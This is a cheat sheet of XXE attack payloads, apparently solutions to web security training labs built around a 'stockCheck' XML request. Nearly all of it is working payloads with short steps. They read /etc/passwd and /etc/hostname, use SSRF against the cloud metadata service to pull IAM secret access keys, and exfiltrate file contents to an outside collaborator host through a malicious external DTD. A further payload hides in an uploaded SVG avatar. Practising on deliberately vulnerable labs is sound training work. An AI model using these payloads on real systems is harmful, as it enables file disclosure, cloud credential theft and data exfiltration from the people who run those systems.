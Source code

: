 ## Exploiting XXE using external entities to retrieve files

Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

## Exploiting XInclude to retrieve files

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## Exploiting XXE to perform SSRF attacks

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
Iteratively update the URL in the DTD to explore the API until you reach `/latest/meta-data/iam/security-credentials/admin`. 
This should return JSON containing the SecretAccessKey. 

## Blind XXE with out-of-band interaction

```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

Replace the productId number with a reference to the external entity: &xxe;

## Blind XXE with out-of-band interaction via XML parameter entities
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

## Exploiting blind XXE to retrieve data via error messages

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```


## Exploiting blind XXE to exfiltrate data using a malicious external DTD

Exploit Server:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Between XML declaration and stockCheck:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL (exploit server)"> %xxe;]>
```

## Exploiting XXE via image file upload

1) Create a local SVG image with the following content: 
```
## <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

2) Post a comment on a blog post, and upload this image as an avatar. 
3) When you view your comment, you should see the contents of the /etc/hostname file in your image.
